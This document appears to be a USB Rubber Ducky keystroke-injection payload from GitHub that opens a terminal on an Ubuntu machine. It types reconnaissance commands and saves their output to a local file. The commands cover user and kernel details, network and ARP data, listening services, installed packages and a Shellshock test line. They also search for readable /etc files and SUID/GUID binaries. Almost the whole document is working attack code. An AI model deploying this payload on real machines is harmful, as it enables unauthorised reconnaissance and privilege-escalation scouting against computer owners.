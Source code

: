 The following script is an information gatherer script which collects info from a running Ubuntu OS and saves it to a file named "info_gathering.txt". 
The info that the script retrieves is the following:
- Logged Username


    REM Infogathering Ubuntu 1.0 Script issues OS info gathering commands in terminal - by Captain_Harlock
    DELAY 3000
    ALT F2
    DELAY 300
    STRING gnome-terminal 
    DELAY 100
    ENTER
    DELAY 200
    STRING clear
    DELAY 10
    ENTER
    DELAY 50
    STRING echo "Logged in user:" $USER > info_gathering.txt
    ENTER 
    DELAY 50
    STRING echo >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING echo -n "Distribution Kernel Version:" >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING cat /etc/issue | cut -c1-13 >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50 
    STRING echo -n "uname results: " >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING uname -a >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    DELAY 50
    STRING echo >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING echo "Shellsock Bug Vulnerability" >> info_gathering.txt
    DELAY 50
    ENTER 
    STRING echo >> info_gathering.txt
    ENTER 
    DELAY 50
    STRING env x='() { :;}; echo vulnerable' bash -c `echo hello` >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    DELAY 50
    ENTER 
    DELAY 50
    STRING echo >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING echo "Mounted filesystems" >> info_gathering.txt
    ENTER 
    DELAY 50
    STRING mount -l >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 100
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50  
    STRING echo "Network Configuration" >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 50
    STRING ifconfig -a | grep 'Link\|inet' >> info_gathering.txt
    ENTER
    DELAY 50
    STRING 
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Print Hosts" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING cat /etc/hosts >> info_gathering.txt
    ENTER
    DELAY 50
    STRING 
    STRING echo echo "Print ARP" >> info_gathering.txt
    ENTER
    DELAY 50  
    STRING arp >> info_gathering.txt
    ENTER
    DELAY 50 
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Development tools availability" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING which gcc >> info_gathering.txt
    ENTER
    DELAY 50
    STRING which g++ >> info_gathering.txt
    ENTER
    DELAY 50
    STRING which python >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Print TCP/UDP Listening Services" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING netstat -tunlpe >> info_gathering.txt
    ENTER
    DELAY 300
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Installed Packages" >> info_gathering.txt
    DELAY 50
    ENTER
    DELAY 200
    STRING dpkg -l >> info_gathering.txt
    ENTER
    DELAY 300
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Find Readable Folders in /etc" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING find /etc -user `id -u` -perm -u=r -o -group `id -g` -perm -g=r -o -perm -o=r -ls 2> /dev/null >> info_gathering.txt
    ENTER
    DELAY 500
    STRING echo >> info_gathering.txt
    ENTER
    DELAY 50
    STRING echo "Find SUID and GUID files" >> info_gathering.txt
    ENTER
    DELAY 50
    STRING find / -type f -perm -u=s -o -type f -perm -g=s -ls  2> /dev/null >> info_gathering.txt
    DELAY 50
    ENTER